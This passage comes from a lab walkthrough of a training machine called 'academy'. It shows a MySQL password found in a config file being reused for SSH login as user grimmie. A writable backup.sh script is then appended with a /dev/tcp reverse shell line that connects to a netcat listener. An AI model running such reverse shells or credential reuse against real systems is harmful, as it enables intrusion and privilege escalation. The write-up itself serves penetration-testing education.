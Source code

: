 ~~~
$cfg['Servers'][$i]['AllowNoPassword'] = false;                                                                                                                                                                                             
$cfg['Servers'][$i]['AllowNoPassword'] = false;
$cfg['Servers'][$i]['AllowNoPassword'] = false;
$cfg['ShowChgPassword'] = true;
$mysql_password = "My_V3ryS3cur3_P4ss";
$mysql_password = "My_V3ryS3cur3_P4ss";
~~~
Linpeas has found a password for mysql. Perhaps this password is reused by a user and can we try to connect via SSH to the target.
In previous steps the user "grimmie" has been identified, so I decided to try to logon to the SSH service with these credentials.

~~~
┌──(emvee㉿kali)-[~/Documents/academy]
└─$ ssh grimmie@$ip                                        
grimmie@192.168.138.5's password: 
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun May 30 03:21:39 2021 from 192.168.10.31
grimmie@academy:~$ whoami;id;hostname;pwd
grimmie
uid=1000(grimmie) gid=1000(administrator) groups=1000(administrator),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
academy
/home/grimmie
grimmie@academy:~$ 
~~~
Login with grimmie was successful by reusing the password. After that I run a couple of commands in one line to see which user, memberships and machine I'm working on using the following one-liner: **whoami;id;hostname;pwd**.
It looks like I am working in the home diretory of the user grimmie. This is where the backup.sh file should be present. I had to double check this ofcourse.
~~~
grimmie@academy:~$ ls
backup.sh
grimmie@academy:~$ cat backup.sh 
#!/bin/bash

rm /tmp/backup.zip
zip -r /tmp/backup.zip /var/www/html/academy/includes
chmod 700 /tmp/backup.zip
~~~
The file was indeed present and now it was time to adjust the content with my command to start a reverse shell to my netcat listener with the following command: **echo "sh -i >& /dev/tcp/192.168.138.4/4321 0>&1" >> backup.sh**.
~~~
grimmie@academy:~$ echo "sh -i >& /dev/tcp/192.168.138.4/4321 0>&1" >> backup.sh
~~~
After appending the backup.sh file I started my netcat listener on port 4321 and I had to wait a few minutes.
~~~
┌──(emvee㉿kali)-[~]
└─$ nc -lvp 4321
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4321
Ncat: Listening on 0.0.0.0:4321
Ncat: Connection from 192.168.138.5.
~~~